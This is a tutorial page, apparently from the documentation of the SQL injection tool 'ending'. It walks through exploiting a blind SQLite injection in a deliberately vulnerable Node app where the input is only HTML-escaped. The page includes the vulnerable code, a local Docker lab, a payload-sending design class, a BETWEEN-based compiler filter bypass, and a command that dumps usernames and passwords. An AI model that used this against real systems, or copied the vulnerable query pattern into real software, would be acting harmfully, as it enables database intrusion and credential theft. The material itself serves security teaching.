




# Bypassing HTML entities

DBMS | Type | Tags
-|-|-
SQLite | Blind | compiler, filters

Here, we exploit a blind SQL injection where the payload is HTML-escaped before being inserted into the query. While this does not prevent SQL injections, it makes us unable to use standard operators such as `<` and `>` and the likes. We change the way the comparisons are converted into code by **ending** to bypass this limitation.

Vulnerable code:

```js
const escape = require('escape-html');
...


app.get('/', (req, res) => {
    const id = req.query.id;
    if (!id) {
        return res.status(400).send('Missing id');
    }
    const query = "SELECT * FROM users WHERE id=" + escape(id);

    db.get(query, [], (err, row) => {
        if (err) {
            return res.status(500).send('Database error');
        }
        if (!row) {
            return res.status(404).send('User not found');
        }
        res.status(200).send("The user exists!");
    });
});
```

## Setup

The test setup is available as `ending-tutorials/html-entities`:

```bash
$ git clone https://github.com/cfreal/ending-tutorials
$ cd ending-tutorials/html-entities
$ sudo docker build -t ending-tutorials/html-entities .
$ sudo docker run -p 5000:5000 --rm ending-tutorials/html-entities
```

The injection can then be configured normally:

```bash
$ ending tutorial-html-entities create
```

Setup the design:

```python
class Design(HTTPDesign):
    pattern: re.Pattern = re.compile(b'^The\\ user\\ exists!$', re.DOTALL)

    async def send(self, payload: str="1") -> bytes:
        """Sends given payload to the target and returns the response as bytes.
        """
        # TODO If you know a correct value, add it as the default argument of this function
        response = await self.session.get(
            "http://localhost:5000/",
            params={
                "id": payload,
            }
        )
        return response.content
```

And configure it:

```bash
$ ending tutorial-html-entities configure
```

## Design failure

The configuration succeeds, but if we try to retrieve anything, it'll fail:

```bash
$ ending tutorial-html-entities query -f 'sqlite_version()'
```



To understand why, let's call `validate`, as we should always do after a successful configuration.

!!! note

    `validate` verifies that the injection design works properly by doing a battery of tests. For blind SQL injections, it will test out every used operator in order to find out which one fails.
    If the injection does not work as expected, it provides potential solutions.

```bash
$ ending tutorial-html-entities validate
```



It indicates that the `>` and `>=` operators did not work properly. It is due to the fact that they are HTML-escaped, and `>` gets converted to `&gt;`. 

## Alternative syntax for comparisons

Since we cannot use these operators, we need to use an alternative SQL syntax instead. One of these syntaxes is `x BETWEEN y AND z`. For instance, `a <= b` can be written as `a BETWEEN {INT_MIN} AND b` instead (with `INT_MIN` being the smallest number that SQLite supports).

In **ending**, comparisons are handled by the [AST node named `Comparison`](file:///work/dev/ending/docs/pdoc/ending/ast.html#ending.ast.Comparison), which holds three attributes: the `left` operand, the `right` operand, and the `operator`. These nodes are converted into SQL code by a compiler, and more precisely by its `compile_Comparison()` method. We can create a superclass of the SQLite compiler and make it so that instead of writing comparison as `<left><operator><right>`, it uses `BETWEEN` instead. We get:

```python
from ending.ast import *
from ending.db.sqlite import *

class NoHTMLEntitiesCompiler(Compiler):
    def compile_Comparison(self, comparison: Comparison, format: str) -> str:
        SQLITE_INT_MIN = -(2**63)
        SQLITE_INT_MAX = 2**63 - 1

        if comparison.operator == "<":
            return f"({comparison.left:p} BETWEEN {SQLITE_INT_MIN} AND {comparison.right:p}-1)"
        elif comparison.operator == "<=":
            return f"({comparison.left:p} BETWEEN {SQLITE_INT_MIN} AND {comparison.right:p})"
        elif comparison.operator == ">":
            return f"({comparison.left:p} BETWEEN {comparison.right:p}+1 AND {SQLITE_INT_MAX})"
        elif comparison.operator == ">=":
            return f"({comparison.left:p} BETWEEN {comparison.right:p} AND {SQLITE_INT_MAX})"
        
        # Otherwise, use the default
        return super().compile_Comparison(comparison, format)
```

!!! note

    The `p` format tells ending to add parentheses around the value if required.
    When in doubt, use it.

We can then replace the `set_compiler()` method of our design to use the new one:

```python
class Design(HTTPDesign):
    ...
    async def set_compiler(self) -> Compiler:
        return NoHTMLEntitiesCompiler(quote=quoting.char)
```

We can now call `validate` again to see if it works better:

```bash
$ ending tutorial-html-entities validate
```



It does! We can now use our design at will:

```bash
$ ending tutorial-html-entities query -t users -f username password
```

